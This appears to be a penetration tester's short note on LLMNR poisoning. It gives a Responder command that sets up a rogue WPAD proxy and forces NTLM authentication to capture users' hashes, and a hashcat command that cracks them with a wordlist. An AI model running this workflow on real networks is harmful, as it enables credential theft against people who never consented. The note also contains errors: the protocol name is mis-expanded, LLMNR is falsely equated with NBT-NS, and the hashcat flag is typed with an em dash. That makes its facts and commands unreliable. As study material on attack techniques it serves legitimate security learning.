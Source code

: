 
**LLMNR** (Link Local Multitask Name Resolution) is used to identify hosts when DNS fails to do so in a network. Previously *also known as NBT-NS*

The flaw in this protocol is, it uses the user's username and the NTLMv2 hash which can be exploited by a Man in the Middle Attack.

![[LLMNR Poisoning.png]]

1. First we can use a tool like responder to listen to LLMNR messages in a network. 
   
```bash
sudo responder -I eth0 -dwP
```

`-d`: Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.  
`-w`: Start the WPAD rogue proxy server. Default value is False
`-P`: Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn't need to be ON. This option is highly effective. Default: False

![[LLMNR Responder Output.png]]

2. Once a request is made, the responder can catch it with the username of the client along their NTLM hash.
  ![[LLMNR Event.png]]
  
3. If the password the user has set is weak, we can use a tool like `hashcat` to crack the password. eg:  
   
```bash
hashcat —m 5600 hashes.txt rockyou.txt
```
   ![[LLMNR Hash Crack.png]]
   


